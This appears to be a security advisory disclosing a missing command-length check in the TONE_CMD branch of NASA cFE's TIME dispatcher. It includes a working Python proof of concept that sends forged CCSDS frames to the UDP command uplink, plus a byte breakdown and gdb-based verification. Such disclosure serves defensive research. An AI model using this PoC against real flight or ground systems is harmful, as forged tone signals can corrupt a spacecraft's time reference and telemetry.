


### Overview

- Vendor : NASA
- Product : core Flight System (cFS) / TIME
- Version : cFE v7.0.2-rc1 as bundled in nasa/cFS v7.0.2-rc1 (commit 63b6f8d); the unguarded internal dispatch shape is present across the public 7.x history
- Vulnerability Class : Improper Input Validation (CWE-20)

### Description

A vulnerability was identified in NASA cFE v7.0.2-rc1. The affected branch is the TONE_CMD branch of CFE_TIME_TaskPipe() of the file cfe/modules/time/fsw/src/cfe_time_dispatch.c. The branch passes the raw software bus message to CFE_TIME_ToneSignalCmd() without any length check, while every TIME ground command is first validated by CFE_TIME_VerifyCmdLength(). Any frame delivered to message ID 0x1810 therefore triggers the time at tone signal path, whatever its declared length or content; CFE_TIME_ToneSignalCmd() never reads the payload. The attack is possible to be carried out remotely over the command uplink, which in the stock bundle is ci_lab on UDP port 1234. ci_lab forwards every received datagram to the software bus without filtering by message ID. Its only length check rejects a packet whose declared length exceeds the received datagram, so an 8-byte declaration passes. The CCSDS command checksum is not verified by default. A forged frame is a forged time synchronization signal. TIME promotes new values into its active time reference only when a data message and a tone signal form a pair. In missions configured with AT_TONE_WILL_BE, a forged signal completes that pairing; combined with a forged data message, attacker-supplied values become the active time reference of the system. In the sample configuration, where AT_TONE_WAS is true, a forged signal does not install time values, but it still increments ToneSignalCounter, so the tone health indicator read on the ground becomes attacker-writable.

### Vulnerability details

The message ID of the branch is `0x1810`, `CFE_PLATFORM_TIME_CMD_MIDVAL(TONE_CMD)`, the platform command base `0x1800` with topic 16. TIME subscribes this message ID on its command pipe; the software bus routing-table dump confirms the subscription.

`cfe/modules/time/fsw/src/cfe_time_dispatch.c:262-268` — no `VerifyCmdLength`:

```c
    else if (CFE_SB_MsgId_Equal(MessageID, TONE_CMD_MID))
    {
        CFE_TIME_ToneSignalCmd((const CFE_TIME_ToneSignalCmd_t *)SBBufPtr);
    }
```

`CFE_TIME_ToneSignalCmd()` at `cfe_time_task.c:441-452` does not touch its payload — the `data` parameter is unused — and calls `CFE_TIME_ToneSignal()` at `cfe_time_tone.c:645-670`:

```c
#if (CFE_MISSION_TIME_AT_TONE_WILL_BE == true)
    CFE_TIME_ToneVerify(CFE_TIME_Global.ToneDataLatch, CFE_TIME_Global.ToneSignalLatch);
#endif
    CFE_TIME_Global.ToneSignalCounter++;
```

Configuration-dependent behavior:

- In `AT_TONE_WILL_BE` missions, a ground-injected frame directly triggers `CFE_TIME_ToneVerify()` and, on a successful pairing, `CFE_TIME_ToneUpdate()` — the same path that promotes attacker-supplied pending time values into the active time reference. Together with the DATA_CMD branch reported separately in CFE_TIME_ToneDataCmd, both halves of the tone/data pairing become attacker-controlled.
- In missions where `AT_TONE_WILL_BE` is false — the sample configuration, `example_mission_cfg.h:466-467`, where `AT_TONE_WAS=true` — the forged signal still increments `ToneSignalCounter`: tone health bookkeeping is attacker-writable, and the frame is consumed in silence with no length validation.

The branch belongs to the unguarded internal family: `ONEHZ_CMD` at line 241, `DATA_CMD` at line 255 and `SEND_CMD` at line 270, the last compiled only in `CFE_PLATFORM_TIME_CFG_SERVER` builds.

### PoC

Environment: nasa/cFS v7.0.2-rc1 native pc-linux build, stock startup script, command ingest on UDP/1234.

```python
#!/usr/bin/env python3
# CFE_TIME_ToneSignalCmd command length validation bypass - minimal PoC
# Target : NASA cFS v7.0.2-rc1, stock bundle running in the foreground
# Run    : python3 poc_tone_signal.py [--ip=127.0.0.1] [--port=1234] [--count=10]
# Expect : every frame is consumed in silence and no rejection event is printed;
#          on an instance traced at CFE_TIME_ToneSignalCmd the entry count
#          jumps by count within about a second
import socket
import struct
import sys
import time

TARGET_MID = 0x1810  # CFE_PLATFORM_TIME_CMD_MIDVAL(TONE_CMD)


def frame():
    """TONE_CMD declaring a payload length of 1 - a bare 8-byte CCSDS header -
    followed by 8 marker bytes carried beyond the declared message."""
    p = struct.pack(">HHHBB", TARGET_MID, 0xC000, 1, 0, 0)
    c = 0xFF
    for b in p:
        c ^= b
    return p[:7] + bytes([c]) + b"\xAB" * 8


def main():
    ip, port, count = "127.0.0.1", 1234, 10
    for a in sys.argv[1:]:
        k, _, v = a.lstrip("-").partition("=")
        if k == "ip":
            ip = v
        elif k == "port":
            port = int(v)
        elif k == "count":
            count = int(v)

    pkt = frame()
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    for _ in range(count):
        s.sendto(pkt, (ip, port))
        print("tx", pkt.hex())
        time.sleep(0.1)


if __name__ == "__main__":
    main()
```

| offset | field | value | meaning |
|---|---|---|---|
| 0-1 | message ID | `0x1810` | TIME TONE_CMD |
| 2-3 | sequence | `0xC000` | unsegmented sequence flag |
| 4-5 | length | `0x0001` | CCSDS length field = total - 7, so the packet declares 8 bytes |
| 6 | function code | `0x00` | |
| 7 | checksum | `0x36` | |
| 8-15 | trailing bytes | `AB` x8 | markers beyond the declared message |

The frame is 16 bytes long, so eight bytes are carried beyond what the header declares: the length field declares 1, i.e. a message of 8 bytes, and the eight `0xAB` markers sit beyond it while the handler accepts the frame without reading them.

### Observation

The observation uses a breakpoint on CFE_TIME_ToneSignalCmd(). The instance runs under the attached gdb script probe_tonesignal.gdb, which prints one line for every entry into the handler with a running count; the breakpoint only prints and does not participate in the delivery:

```
gdb -nx -batch -x probe_tonesignal.gdb --args ./core-cpu1
```

The PoC of the previous section delivers its ten frames while this console is running. The baseline is about one line per second, produced by the internal 1 Hz tone task of the simulated time source, interleaved with the periodic Start/Stop FLYWHEEL events of the time state machine.



In this capture the entries outside the marked window arrive about one per second. Between the two marked timestamps, 06:56.03 and 06:58.09, ten handler lines appear in about two seconds: the ten injected frames, each accepted and consumed in silence, with no rejection event anywhere in the capture.

The same frame shape sent to a ground command of the same application produces the opposite outcome. The contrast uses SET_SOURCE of TIME, function code 4 at message ID 0x1805, delivered by the attached send_hdr_frames.py --mid=0x1805 --fc=4. No new handler line appears and the console prints the rejection event instead:

```
EVS Port1 1980-012-15:16:49.50947 66/1/CFE_TIME 49: Invalid msg length: ID = 0x1805,  CC = 4,  Len = 8,  Expected = 10
```



The capture shows the rejection event printed between handler lines: the ground-command branch rejects the frame on length before its handler runs, while the internal TONE_CMD branch accepts the identical shape without any check.
